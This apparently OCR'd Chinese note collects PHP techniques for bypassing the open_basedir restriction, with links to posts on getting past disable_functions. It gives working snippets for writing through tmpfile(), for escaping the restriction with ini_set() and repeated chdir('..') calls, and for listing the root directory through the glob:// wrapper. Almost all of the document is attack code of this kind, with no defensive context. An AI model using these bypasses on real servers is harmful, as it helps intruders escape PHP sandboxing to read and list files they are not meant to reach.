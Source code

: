  https://www.anquanke.com/post/id/197745#h3-5 

 [浅谈几种Bypass-disable-functions的方法](https://www.mi1k7ea.com/2019/06/02/浅谈几种Bypass-disable-functions的方法) 




# bypass  open_basedir

## tmpfile绕过open_basedir在/tmp目录写文件

```
<?php
$value=<<<EOF

EOF;

$tmpHandle = tmpfile();
$metaDatas = stream_get_meta_data($tmpHandle);
$tmpFilename = $metaDatas['uri'];
fwrite($tmpHandle, $value);
fseek($tmpHandle, 0);
echo fread($tmpHandle, 1024);
var_dump($tmpFilename);
fflush($tmpHandle );



fclose($tmpHandle);
```







## ini_set与chdir 绕过open_basedir

```php
mkdir('img');
chdir('img');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');

```



## glob协议列根目录

```php
$it = new DirectoryIterator("glob:///*");
foreach ($it as $f){
    echo $f->__toString()." ";
}

```

